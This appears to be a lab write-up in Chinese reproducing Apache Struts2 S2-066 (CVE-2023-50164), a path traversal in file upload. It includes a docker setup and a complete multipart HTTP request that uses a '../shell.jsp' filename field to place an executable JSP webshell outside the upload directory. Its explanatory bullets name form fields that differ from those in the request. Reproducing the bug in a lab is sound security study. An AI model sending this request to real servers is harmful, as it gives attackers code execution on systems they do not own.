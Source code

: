 # Struts2 S2-066 文件上传路径穿越漏洞（CVE-2023-50164）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

Apache Struts2 S2-066 是一个存在于文件上传功能中的路径穿越漏洞。攻击者可以通过操纵表单字段名称的大小写，将文件上传到预期上传目录之外的位置。

在 Struts2 的文件上传处理过程中，框架通常只保留上传文件的基本名称（basename）以防止路径穿越。但是，由于处理过程中的一个逻辑缺陷，攻击者可以通过以下方式绕过这个保护：

1. 使用首字母大写的表单字段名（例如，使用 "Upload" 而不是 "upload"）
2. 提供一个包含目标路径穿越文件名的单独表单字段

这使得未经处理的文件名可以覆盖基本名称保护，最终导致成功的路径穿越。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## 环境搭建

执行以下命令启动一个用 Struts2 2.5.32 编写的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

首先，尝试将 JSP 文件上传到正常的上传目录：

![普通上传](1.png)

虽然文件上传成功，但由于服务器配置，JSP 代码无法在上传目录`upload/`中执行：

![执行失败](2.png)

使用以下请求，利用 S2-066 漏洞将文件上传到上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 表单字段名使用首字母大写（"Upload"）
- 单独的 "uploadFileName" 字段包含路径穿越的 payload：`../shell.jsp`

![成功上传](3.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](4.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
